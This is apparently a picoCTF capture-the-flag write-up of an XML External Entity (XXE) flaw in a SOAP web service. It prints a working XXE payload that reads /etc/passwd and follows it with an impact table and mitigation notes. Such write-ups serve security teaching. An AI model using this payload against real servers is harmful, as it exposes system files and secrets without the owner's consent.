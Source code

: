 # 🧼 XXE Exploitation in SOAP Web Service (picoCTF)

**Author:** Geoffrey Njogu  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `XXE`, `SOAP`, `BurpSuite`, `CTF`, `Web Exploitation`

---

## 📘 Description

> The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

---

## 🚀 Challenge Deployment


---

## 🔥 Vulnerability: XML External Entity Injection (XXE)

The application accepts raw XML input with `Content-Type: application/xml`, and parses it insecurely. This allows an attacker to define external entities (`<!ENTITY>`) that point to sensitive files on the server.

---

## 💣 Exploit Payload

### 🧪 Proof of Concept (Read `/etc/passwd`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data>
  <ID>&xxe;</ID>
</data>
```

| Property        | Impact                                                       |
| --------------- | ------------------------------------------------------------ |
| Confidentiality | 🔴 Exposed sensitive files (`/etc/passwd`, API keys, config) |
| Integrity       | 🟡 Potential alteration if parser injects data into logic    |
| Availability    | 🔴 Possible DoS via Billion Laughs attack                    |


🛡️ Mitigation (Developer Notes)
>To prevent this vulnerability:
>🚫 Disable external entity expansion
>🚫 Disallow DOCTYPE declarations
>✅ Validate input using strict XML schema
>✅ Consider switching to JSON if XML is not necessary
